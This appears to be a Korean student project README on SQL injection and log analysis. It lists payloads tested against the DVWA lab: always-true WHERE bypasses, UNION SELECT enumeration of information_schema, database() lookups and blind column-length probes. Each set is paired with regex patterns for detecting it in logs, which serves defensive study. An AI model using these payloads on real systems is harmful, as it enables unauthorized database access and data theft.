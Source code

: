 ## SQL Injection 구현 및 log 분석
SQL injection: 주민서, 이종학

log 분석: 김현서, 허남정, 오성택

---
### 0. SQL Injection
코드 참조

---
### 1. 조건문을 이용한 SQL Injection
이 유형의 payload는 WHERE절의 조건을 항상 참으로 만들어 조건을 우회하는 방법 입니다.
- ' OR 1=1 #
- ' OR TRUE #
- ' OR '1'='1' #
- ' OR '1'='1' LIMIT 1 #
- ' OR TRUE LIMIT 1 #
- ' OR 1=1 LIMIT 5 #

이런 payload는 다음과 같은 쿼리가 있다고 가정했을 때 사용합니다.

SELECT * FROM table WHERE id = 'sql_injection' AND pw = 'sql_injection’

WHERE절의 조건이 항상 참이 되므로 모든 행이 반환됩니다.

표현식
- (\d)*?'\s*?or\s(1=1|true|\'\d*\'=\'\d*\')
- or\s+('1'='1'|true|1=1)

---
### 2. UNION SELECT
UNION은 두 개 이상의 SELECT문의 결과를 하나의 결과로 만들어줍니다. 이때 각 SELECT문은 같은 수의 컬럼을 가져야 하며, 각 열의 데이터 타입이 일치해야 합니다. 이러한 특성을 이용해 데이터베이스의 구조나 정보를 알아낼 수 있습니다. 사용된 payload를 확인해보면 컬럼의 길이, 테이블 이름, 컬럼의 데이터를 알아내는데 사용되었습니다.
- ' UNION SELECT 1 #
- ' UNION SELECT 1, 2 #
- ' UNION SELECT 1, 2, 3 #
- ' UNION SELECT 1, table_name FROM information_schema.tables #
- ' UNION SELECT table_name,2 FROM information_schema.tables #
- ' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='dvwa' #
- ' UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema='dvwa' #
- ' UNION SELECT 1,column_name from information_schema.columns WHERE table_name='guestbook' LIMIT 2,1 #
- ' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='guestbook' LIMIT 2,1 #
- ' UNION select 1,column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' and table_schema='dvwa' #

위 예시의 쿼리문들을 이용해 컬럼의 개수 및 데이터베이스의 정보, 컬럼의 이름 등을 알아내는데 사용할 수 있습니다.

표현식
- (\d)*?\'\s*?union\sselect\s(\d+\s*?\,\s*?)*\d+\s*?(#)
- (\d)*?\'\s*?union\sselect\s(\d*?\s*?\,\s*?)*\d*?\s*?table_name\s(\d*?\s*?\,\s*?)*\d*?\s*?from\sinformation_schema\.tables\s(where\stable_schema\s*?\=\s*?\'(.*)\')*?
- select \d+(\s*,\s*\d+)+
- select.*table_name.*from\s*information_schema.tables
- (\d)*?\'\s*?union\sselect\s(\d*?\s*?\,\s*?)*\d*?\s*?column_name
- select.*column_name.*from\s*information_schema.columns

---
### 3. DB 정보 확인
database() 함수는 MySQL에서 현재 연결된 데이터베이스의 이름을 반환합니다. 이 함수를 사용해 현재 사용중인 데이터베이스의 이름을 알아내 데이터베이스의 구조를 파악해 SQL 인젝션 공격을 계획할 수 있게 됩니다.
- ' UNION SELECT 1,database() #`
- ' UNION SELECT database(), 2 #`

표현식
- (\d)*?\'\s*?union\sselect\s(\d*?\s*?\,\s*?)*\d*?\s*?database\(\)
- select.*database()

---
### 4. 컬럼 길이 확인
특정 테이블의 컬럼 이름 길이를 알아내기 위한 payload입니다. information_schema.columns과 LENGTH() 함수를 이용해 특정 테이블의 컬럼 이름의 길이를 추측해 데이터베이스 구조를 탐색합니다.
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=1) #`
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=2) #`
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=3) #`

위 쿼리를 보면 이름의 길이를 순차적으로 증가시키며, 데이터베이스 구조를 탐색하려는 의도임을 알 수 있습니다.

표현식
- (\d)*?\'\s*?and\s\(select\s\d\sfrom\sinformation_schema\.columns\swhere\stable_schema\=\'(.*)\'(\sand\stable_name\=\'(.*)\')*?(\sand\slength\(column_name\)\=\d)*?
- select.*from.*where.*length\(.*\)
